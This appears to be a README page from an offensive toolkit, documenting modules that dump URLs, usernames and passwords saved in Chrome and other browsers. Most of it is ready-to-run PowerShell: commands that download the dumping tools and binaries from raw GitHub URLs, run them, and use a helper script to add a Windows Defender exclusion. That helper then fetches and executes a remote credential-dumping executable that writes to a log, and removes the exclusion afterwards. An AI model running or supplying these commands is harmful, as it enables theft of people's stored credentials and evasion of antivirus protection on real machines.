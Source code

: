 ## Module Name
   <b><i>DumpChromePasswords.ps1</i></b>

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|DumpChromePasswords|dumps URLs, usernames, and passwords from Chrome.|User Land|Only dumps chrome browser|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/DumpChromePasswords.ps1" -OutFile "DumpChromePasswords.ps1"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip" -OutFile "sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip"
```

**prerequisites:**
``` 
   1. You must have the System.Data.SQLite.dll handy (see below)
   2. Your database must be accessible (close Chrome, or make some copy)
   3. It must by your database. If Chrome cannot open it, the script will probably fail as well.
```

```powershell
.\DumpChromePasswords.ps1
```

<br />


## Module Name
   <b><i>HarvestBrowserPasswords.exe</i></b>

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|HarvestBrowserPasswords|dumps URLs, usernames, and passwords from major browsers.|User Land|Dumps major browsers|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/HarvestBrowserPasswords.exe" -OutFile "HarvestBrowserPasswords.exe"
```

```powershell
.\HarvestBrowserPasswords.exe -a, --all
.\HarvestBrowserPasswords.exe -f, --firefox
.\HarvestBrowserPasswords.exe -c, --chrome
```

<br />


## Module Name
   <b><i>ChromePass.exe - UNDER-DEVELOP (NOT-STABLE)</i></b>
   
|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|ChromePass|dumps usernames, passwords from chrome|Administrator|Invoke-ExclusionExtension.ps1 downloads\evade AV|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WDbypass/Invoke-ExclusionExtension.ps1" -OutFile "Invoke-ExclusionExtension.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
Get-Service -Name WinDefend

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

```powershell
Get-help .\Invoke-ExclusionExtension.ps1 -Force

.\Invoke-ExclusionExtension.ps1 -action "add" -Extension "exe" -Directory "$Env:TMP"
.\Invoke-ExclusionExtension.ps1 -action "exec" -Extension "exe" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"
.\Invoke-ExclusionExtension.ps1 -action "del" -Extension "exe"
```
